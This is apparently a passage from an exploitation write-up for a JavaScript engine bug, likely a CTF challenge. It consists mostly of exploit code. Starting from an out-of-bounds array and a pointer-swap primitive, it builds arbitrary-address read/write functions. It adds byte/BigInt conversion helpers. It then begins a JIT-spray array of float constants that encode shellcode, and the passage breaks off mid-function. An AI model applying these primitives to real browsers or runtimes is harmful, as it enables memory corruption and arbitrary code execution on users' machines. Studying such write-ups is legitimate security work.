 ```
Segmentation fault (core dumped)
```

We can thus generalise this to AAR/W:

```js
function craftARB(oob, puppet, arrIdx) {
  function aar(addr) {
    oob[0] = itof(addr); // commit proper 8 byte representation of address
    oob.from = 0;
    oob.to = arrIdx;
    oob.swap(); // set puppet pointer to the target address
    let res = btoi(puppet); // extract 8 bytes at address as BigInt
    oob.swap(); // swap back to original pointer in case needed
    return res;
  }
  function aaw(addr, val) {
    oob[0] = itof(addr);
    oob.from = 0;
    oob.to = arrIdx;
    oob.swap();
    itob(puppet, val);
    oob.swap();
  }
  return [aar, aaw];
}
```

With more helpers for 8 bytes to integer conversion:

```js
let ui8_arr = new Uint8Array(arr_buf); /* buffer for uint8 */

function btoi(b) { // converts 8 bytes in Uint8Array to a BigInt
  for (let i = 0; i < 8; i++) {
    ui8_arr[i] = b[i];
  }
  return b64_arr[0];
}

function itob(b, val) { // writes a BigInt into a Uint8Array
  b64_arr[0] = val;
  for (let i = 0; i < 8; i++) {
    b[i] = ui8_arr[i];
  }
}
```

For (2), this is also pretty standard procedure:

```js
/* jit */
const jit = () => {
  let arr = [
    0, /* padding so that the remaining instructions are equally spaced */
    6.373461550595519e-155,
    6.376239429872707e-155,
    6.4245912181429175e-155,
    6.372148572841551e-155,
    6.484345289389636e-155,
    6.297580585455249e-155,
    6.4679554275950934e-155,
    6.297581446886613e-155,
    6.4746428566313055e-155,
    6.4245927695300175e-155
  ];
  return [inIon(), arr];
```
